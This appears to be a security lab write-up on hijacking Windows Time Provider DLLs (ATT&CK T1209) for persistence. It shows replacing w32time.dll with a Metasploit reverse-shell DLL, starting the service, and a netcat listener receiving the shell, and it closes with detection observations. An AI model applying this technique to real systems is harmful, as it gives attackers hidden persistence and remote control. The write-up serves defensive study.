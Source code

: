 ```yaml
---
description: Persistence
---
```


# T1209: Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If an attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get that malicious code executed. 

In this lab, we will just swap out the `w32time.dll` with our own. It contains a metasploit reverse shell payload:

![](../.gitbook/assets/time-registry.png)

Starting the w32time service:

```csharp
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

Attacker receiving a reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../.gitbook/assets/time-context.png)

This time and time again shows that binaries running off of svchost.exe, especially if they are rundll32 and are making network connections, should be investigated further.

{% embed url="https://attack.mitre.org/wiki/Technique/T1209" %}

